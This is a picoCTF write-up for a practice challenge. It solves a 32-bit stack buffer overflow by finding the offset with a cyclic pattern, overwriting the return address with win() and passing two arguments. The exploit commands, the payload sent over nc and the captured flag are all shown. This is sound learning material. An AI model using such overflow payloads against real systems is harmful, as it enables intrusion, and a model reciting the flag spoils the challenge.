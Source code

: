 # URL
https://play.picoctf.org/practice/challenge/259?category=6&page=2

# Challenge
Author: Sanjay C / Palash Oswal

Description
Control the return address and arguments
Additional details will be available after launching your challenge instance.

# Work:
* To start us off, let's create a pattern
```
from pwn import *
# Generate a cyclic pattern of 200 bytes
pattern = cyclic(200)
print(pattern)
>>> print(cyclic(200))
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
```
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/ab68d565-c115-40ee-8ce4-99b3ff61a1e3" />
* EIP = return address and we can see that's being overrun @ address = 0x62616164
```
>>> from pwn import *
>>> print(cyclic_find(0x62616164))
112 
```
* 112 = our offset
```
pwndbg> print &win
$1 = (<text variable, no debug info> *) 0x8049296 <win> 
```
* Knowing the address of win = 0x8049296
```
python3
>>> 'A'*112
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
>>> p32(0x8049296)
b'\x96\x92\x04\x08'
>>> print(cyclic(200))
```
* Submit this payload:
```
pwngdb> r <<< $echo("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x92\x04\x08")
```
<img width="1863" height="753" alt="image" src="https://github.com/user-attachments/assets/8457c79f-e596-4ca2-a64f-23dd69d89f4b" />
* So the command above worked since we are in the win() function now
* Now all we gotta do is pad 4 bytes and add the two arguments
<img width="362" height="185" alt="image" src="https://github.com/user-attachments/assets/2dfec480-3012-45c5-87f1-c19af6956796" />
* We NEED these arguments or else the function won't continue
* The 4 bytes are dummy bytes, those 4 bytes are the saved return address; however, we don't want to return, instead we want to continue forward

```
+--------------------+
|  return address    |  <-- saved EIP (4 bytes)   ← this is where QQQQ goes
+--------------------+
|  arg1              |  <-- first argument
+--------------------+
|  arg2              |  <-- second argument
+--------------------+
```

* 4 bytes = QQQQ
```
>>> p32(0xCAFEF00D)
b'\r\xf0\xfe\xca'
```
```
>>> p32(0xF00DF00D)
b'\r\xf0\r\xf0'
```

```
┌──(kali㉿kali)-[~/picoCTF/binaryexploitation]
└─$ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x92\x04\x08QQQQ\x0d\xf0\xfe\xca\x0d\xf0\x0d\xf0'" | nc saturn.picoctf.net 64366
Please enter your string: 
�'�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�QQQQ
picoCTF{argum3nt5_4_d4yZ_59cd5643}       
```
* WOOHOOOOOOOOOOO WE FOUND THE FLAG!!!!
  
